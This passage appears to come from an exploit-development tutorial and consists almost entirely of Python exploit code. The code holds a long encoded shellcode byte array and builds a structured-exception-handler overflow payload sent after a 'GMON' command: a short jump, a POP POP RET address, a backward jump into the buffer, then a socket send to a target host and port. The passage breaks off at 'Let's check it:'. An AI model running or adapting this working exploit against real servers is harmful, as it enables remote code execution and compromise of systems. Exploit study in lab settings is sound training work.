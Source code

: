 ``` python
SHELL += b"\xa7\x17\x73\xdc\x98\xa7\xf7\xb0\x14\x43\x55\x20"
SHELL += b"\xae\x21\x72\x47\x07\x8f\xa4\x66\x98\xbc\x95\xe9"
SHELL += b"\x1a\xbf\xc9\xc9\x23\x70\x1c\x08\x63\x6d\xed\x58"
SHELL += b"\x3c\xf9\x40\x4c\x49\xb7\x58\xe7\x01\x59\xd9\x14"
SHELL += b"\xd1\x58\xc8\x8b\x69\x03\xca\x2a\xbd\x3f\x43\x34"
SHELL += b"\xa2\x7a\x1d\xcf\x10\xf0\x9c\x19\x69\xf9\x33\x64"
SHELL += b"\x45\x08\x4d\xa1\x62\xf3\x38\xdb\x90\x8e\x3a\x18"
SHELL += b"\xea\x54\xce\xba\x4c\x1e\x68\x66\x6c\xf3\xef\xed"
SHELL += b"\x62\xb8\x64\xa9\x66\x3f\xa8\xc2\x93\xb4\x4f\x04"
SHELL += b"\x12\x8e\x6b\x80\x7e\x54\x15\x91\xda\x3b\x2a\xc1"
SHELL += b"\x84\xe4\x8e\x8a\x29\xf0\xa2\xd1\x25\x35\x8f\xe9"
SHELL += b"\xb5\x51\x98\x9a\x87\xfe\x32\x34\xa4\x77\x9d\xc3"
SHELL += b"\xcb\xad\x59\x5b\x32\x4e\x9a\x72\xf1\x1a\xca\xec"
SHELL += b"\xd0\x22\x81\xec\xdd\xf6\x06\xbc\x71\xa9\xe6\x6c"
SHELL += b"\x32\x19\x8f\x66\xbd\x46\xaf\x89\x17\xef\x5a\x70"
SHELL += b"\xf0\xd0\x33\x7a\x12\xb9\x41\x7a\x03\x65\xcf\x9c"
SHELL += b"\x49\x85\x99\x37\xe6\x3c\x80\xc3\x97\xc1\x1e\xae"
SHELL += b"\x98\x4a\xad\x4f\x56\xbb\xd8\x43\x0f\x4b\x97\x39"
SHELL += b"\x86\x54\x0d\x55\x44\xc6\xca\xa5\x03\xfb\x44\xf2"
SHELL += b"\x44\xcd\x9c\x96\x78\x74\x37\x84\x80\xe0\x70\x0c"
SHELL += b"\x5f\xd1\x7f\x8d\x12\x6d\xa4\x9d\xea\x6e\xe0\xc9"
SHELL += b"\xa2\x38\xbe\xa7\x04\x93\x70\x11\xdf\x48\xdb\xf5"
SHELL += b"\xa6\xa2\xdc\x83\xa6\xee\xaa\x6b\x16\x47\xeb\x94"
SHELL += b"\x97\x0f\xfb\xed\xc5\xaf\x04\x24\x4e\xd1\xf5\xf4"
SHELL += b"\x5b\x46\xac\x6d\x26\x0a\x4f\x58\x65\x33\xcc\x68"
SHELL += b"\x16\xc0\xcc\x19\x13\x8c\x4a\xf2\x69\x9d\x3e\xf4"
SHELL += b"\xde\x9e\x6a"

PAYLOAD = (
    b'GMON /.:/' +
    SHELL +
    b'A' * (3551 - 4 - len(SHELL)) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

Let’s check it:
